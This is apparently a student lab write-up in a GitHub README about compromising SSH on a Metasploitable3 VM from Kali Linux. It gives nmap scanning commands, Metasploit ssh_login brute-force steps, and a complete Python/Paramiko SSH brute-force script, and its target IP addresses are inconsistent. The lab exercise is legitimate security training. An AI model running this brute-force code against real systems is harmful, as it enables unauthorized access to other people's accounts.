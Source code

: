 # Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.138
  ![لقطة شاشة 2025-05-02 175018](https://github.com/user-attachments/assets/94942fcc-b660-42e3-8962-667f8791f449)


-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.100.138 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.

![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/557cb2b3-9eec-4926-a4d0-caa940052cd1)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.133
  
![لقطة شاشة 2025-05-02 174402](https://github.com/user-attachments/assets/663c2f26-6c43-4220-9bc8-1f94b2910df6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```
![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/3e9d89d4-12de-4791-a8d7-7e17c015532c)

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

First: Create a file for usernames and passwords: 

![لقطة شاشة 2025-05-02 181530](https://github.com/user-attachments/assets/103cc98c-6273-4264-be51-b00c8f8f042b)

Then, we start to exploit: 
1. Launch Metasploit:
   ```
   msfconsole
   ```
   ![لقطة شاشة 2025-04-29 230224](https://github.com/user-attachments/assets/2c38ce71-aa71-4c33-abf3-d9fe9f5d8b15)

2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.
-Screen shot shown all the above steps:

![لقطة شاشة 2025-05-02 174003](https://github.com/user-attachments/assets/66bba784-ed18-418d-b479-883ae5f121df)

## Task 1.2 – Compromise Using Custom Script

# Custom SSH Brute-Force Script (Python + Paramiko)

This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

```python
import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues

```
---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



